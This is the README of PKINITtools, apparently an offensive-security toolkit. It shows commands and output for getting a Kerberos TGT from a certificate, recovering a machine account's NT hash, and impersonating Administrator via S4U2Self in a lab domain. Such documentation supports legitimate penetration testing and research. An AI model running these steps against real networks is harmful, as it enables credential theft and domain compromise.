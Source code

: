 # PKINIT tools

This repository contains some utilities for playing with PKINIT and certificates.  
The tools are built on [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos) and [impacket](https://github.com/SecureAuthCorp/impacket). Accompanying blogpost with more context: <https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/>

## Installation
These tools are only compatible with Python 3.5+. Clone the repository from GitHub, install the dependencies and you should be good to go:

```bash
git clone https://github.com/dirkjanm/PKINITtools
pip3 install impacket minikerberos
```

Using a virtualenv for this is recommended.

## Tools

### gettgtpkinit.py
Request a TGT using a PFX file or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool. Usage example:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py -h
usage: gettgtpkinit.py [-h] [-cert-pfx PFX file] [-pfx-pass PFX file password] [-cert-pem Certificate in PEM format]
                       [-key-pem Private key file in PEM format] [-dc-ip DC_IP] [-v]
                       domain/username ccache

Requests a TGT using Kerberos PKINIT and either a PEM or PFX based certificate+key

positional arguments:
  domain/username       Domain and username in the cert
  ccache                ccache file to store the TGT in

optional arguments:
  -h, --help            show this help message and exit
  -cert-pfx PFX file
  -pfx-pass PFX file password
  -cert-pem Certificate in PEM format
  -key-pem Private key file in PEM format
  -dc-ip DC_IP          DC IP or hostname to use as KDC
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py testsegment.local/s2019dc\$ -cert-pfx ~/impacket-py3/cert.pfx -pfx-pass hoi s2019dc.ccache
2021-07-27 21:25:24,299 minikerberos INFO     Loading certificate and key from file
2021-07-27 21:25:24,316 minikerberos INFO     Requesting TGT
2021-07-27 21:25:24,333 minikerberos INFO     AS-REP encryption key (you might need this later):
2021-07-27 21:25:24,333 minikerberos INFO     5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
2021-07-27 21:25:24,336 minikerberos INFO     Saved TGT to file
```

### getnthash.py
Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable. Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py -h
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity

positional arguments:
  identity           domain/username

optional arguments:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON

(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```

### gets4uticket.py
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that). Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py -h
usage: gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache

Gets an S4U2self ticket impersonating given user

positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a
                        TGS ticket to be used for file access on server "fileserver". IMPORTANT: SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```


## License
MIT

## Credits
* [SkelSec](https://twitter.com/skelsec) for [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos)
* Alberto Solino and the team at SecureAuthCorp for [impacket](https://github.com/SecureAuthCorp/impacket)
* [Mor Rubin](https://twitter.com/rubin_mor) for their first PKINIT implementation in python as part of [AzureADJoinedMachinePTC](https://github.com/morRubin/AzureADJoinedMachinePTC)
* [Benjamin Delpy](https://twitter.com/gentilkiwi) for implementing these things in [kekeo](https://github.com/gentilkiwi/kekeo)
